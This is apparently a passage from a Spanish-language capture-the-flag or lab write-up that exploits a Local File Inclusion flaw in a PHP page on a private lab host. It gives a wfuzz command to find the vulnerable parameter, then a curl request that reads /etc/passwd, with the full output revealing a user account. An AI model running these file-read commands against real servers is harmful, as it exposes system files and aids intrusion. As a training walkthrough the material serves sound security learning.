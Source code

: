 ## Explotación de LFI (Local File Inclusion)

Hay una vulnerabilidad de inclusión de archivos locales (LFI) en el archivo `m414nj3.php`.

```bash
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt -u http://192.168.21.6/n3gr4/m414nj3.php?FUZZ=/etc/passwd --hh=0
```

Accedemos al archivo `/etc/passwd`:

```java
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.21.6/n3gr4/m414nj3.php?FUZZ=/etc/passwd
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000589:   200        22 L     26 W       1065 Ch     "page"                                                                                                                                          

Total time: 0
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 0
```
Vemos el contenido de `/etc/passwd` y vemos que esta el usuario `p4l4nc4`:
```bash
curl http://192.168.21.6/n3gr4/m414nj3.php?page=/etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
p4l4nc4:x:1000:1000:p4l4nc4,,,:/home/p4l4nc4:/bin/bash
```
